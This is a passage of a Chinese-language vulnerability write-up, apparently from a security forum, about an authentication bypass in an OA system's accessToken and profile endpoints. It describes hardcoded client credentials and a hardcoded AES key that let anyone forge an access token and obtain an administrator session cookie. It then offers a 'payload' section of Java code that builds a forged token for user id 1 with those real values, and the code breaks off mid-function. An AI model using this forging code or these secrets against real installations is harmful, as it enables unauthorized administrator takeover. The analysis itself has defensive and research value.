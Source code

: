 (1)从请求中获取当前用户

(2)判断用户不为空

(3)设置`var13`，值为`client_id`、`client_secret`、时间戳和uid的组合

其中`client_id`和`client_secret`是写死的，如下：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-d5901a8ea45407ca153b7bbc88c35cf7767dd21a.png)

(4)带入AES加密，密钥是`youkongjian`

现在知道了`accessToken`的加密过程了，而且其中未涉及不可控值，所以存在伪造的机会。

2.2 `profile`接口
---------------

(1)获取`client_id`、`client_secret`和`access_token`，并解密：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-a95f679362d1836333196681f6b80f1c61cc1883.png)

将解密后的字符串根据`|`分割成数组。

(2)如果当前用户为空，或uid与`access_token`不一致，则重新创建session，并将`access_token`中的用户uid写入session。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-58025e30c069362116fdf0bf11fc1042c272c709.png)

(3)查询uid对应用户，将信息返回前端

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-31d4d814a915f9d55cfec9280ade61893484f166.png)

2.3 总结
------

可以看出，`accessToken`接口说明了`access_token`的加密过程，在`profile`接口进行解密，直接创建了新的session，从而导致漏洞存在。看效果图：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-86afb111ebe8848ceb0c7d26cbc8895172b53e02.png)

返回的`ecology_JSessionid`为管理员的sessionid。测试cookie是否有效：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-1c3326e1633323d50e5f90ef08e039cc4f0ca637.png)

2.4 payload
-----------

你们最期待的东西。

```java
import com.sun.crypto.provider.SunJCE;  
import sun.security.provider.Sun;  

import javax.crypto.\*;  
import javax.crypto.spec.SecretKeySpec;  
import java.security.\*;  

public class userLogin {  
    public static void main(String\[\] args) {  
        String access\_token = encrypt("2ad1b008-38ed-44e4-a113-ef1ee31407c1|L68GFSAH3EBT|"\+ System.currentTimeMillis() +"|1","youkongjian");  
        System.out.print(access\_token);  
    }  
    public static String encrypt(String var0, String var1) {  
        byte\[\] var2 = null;  

        try {  
            KeyGenerator var3 = KeyGenerator.getInstance("AES");  
            SecureRandom var4 = SecureRandom.getInstance("SHA1PRNG");  
            var4.setSeed(var1.getBytes());  
            var3.init(128, var4);  
```
